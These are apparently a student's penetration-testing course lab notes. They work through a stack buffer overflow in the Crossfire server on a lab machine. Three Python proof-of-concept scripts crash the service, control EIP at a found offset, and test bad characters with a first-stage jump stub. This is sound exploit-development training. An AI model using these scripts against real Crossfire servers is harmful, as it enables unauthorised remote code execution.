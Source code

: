 # 12.2.1 - Replicating the Crash
#### Exercises

_(To be performed on your own Kali and Debian lab client machines - Reporting is required for these exercises)_

1.  Log in to your dedicated Linux client using the credentials you received.
In order to login to our linux client we simply need to start the machine and then rdesktop with our credentials.
`rdesktop -u student -g 1024x768 -r clipboard:CLIPBOARD 192.168.233.44`

In preperation for the remaining tasks we must also launch the "Crossfire" application
![[crossfire_start.png]]

2.  On your Kali machine, recreate the proof-of-concept code that crashes the Crossfire server.
Once the application is running we can use the following code on our Kali machine to crash the application 
```python
#!/usr/bin/python3
import socket

ip = "192.168.233.44"
port = 13327

crash = "\x41" * 4379
buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```




3.  Attach the debugger to the Crossfire server, run the exploit against your Linux client, and confirm that the EIP register is overwritten by the malicious buffer.
We need to start edb, attach to crossfire, and put crossfire into "Run" mode.
![[edb_running.png]]
Once this is complete we can execute our PoC code on our Kali machine to observe the crash.

![[edb_crossfire_crash.png]]




# 12.3.1 Controlling EIP
#### Exercises

_(To be performed on your own Kali and Debian lab client machines - Reporting is required for these exercises)_

**1.  Determine the correct buffer offset required to overwrite the return address on the stack.**

First we must create a pattern via msfvenom, we do this with the following command:
`msf-pattern_create -l 4379 `

We then add the pattern to our PoC, replacing the initial string of A's.
![[Pasted image 20220714141259.png]]
We can then run the PoC, using EDB to determine what part of the pattern overwrote EIP.
![[Pasted image 20220714141628.png]]

We can see that the new value of EIP is 46367046 and we can now use msf-pattern_offset to find its location.
![[Pasted image 20220714141906.png]]


**2.  Update your stand-alone script to ensure your offset is correct.**

Using the information above, we can update our PoC to ensure the proper offset is being sent. We have now updated the "crash" variable to reflect the proper offset of 4368. The "eip" variable should overwrite the EIP with 4 "B" characters. The remaining space should be filled with "C" characters via the "offset" variable. The script should now look something like this:
```python
#!/usr/bin/python3
import socket

ip = "192.168.233.44"
port = 13327


crash = "\x41" * 4368
eip = "B" * 4
offset = "C" * (4379 - len(eip) - len(crash))
inputBuffer = crash + eip + offset


buffer = "\x11(setup sound " + inputBuffer + "\x90\x00#"


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```



# 12.5.1 Checking for Bad Characters
#### Exercises

_(To be performed on your own Kali and Debian lab client machines - Reporting is required for these exercises)_

1.  Determine the opcodes required to generate a first stage shellcode using msf-nasm_shell.


2.  Identify the bad characters that cannot be included in the payload and return address.

I began by placing setting the "badchars" variable to represent all possible bad characters. I then placed this into the initial crash variable which was previous filled with "A" characters. I subtracted the length of "badchars" in order to maintain the same length and maintain control of EIP

The full code for checking the characters is as follows:
```python
#!/usr/bin/python3
import socket

ip = "192.168.233.44"
port = 13327

badchars = ""
badchars += "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
badchars += "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
badchars += "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
badchars += "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
badchars += "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
badchars += "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
badchars += "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
badchars += "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
badchars += "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
badchars += "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
badchars += "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
badchars += "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
badchars += "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
badchars += "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
badchars += "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
badchars += "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"



crash = "A" * (4368 - len(badchars))
eip = "B" * 4
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

inputBuffer = crash + badchars + eip + first_stage

buffer = "\x11(setup sound " + inputBuffer + "\x90\x00#"


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

This unfortunately required a bit of trial and error as the lines containing bad characters would sometimes result in a failed crash. Through the process of elimination eventually the characters were identified.

`\x20` and `x00`

![[Pasted image 20220714171745.png]]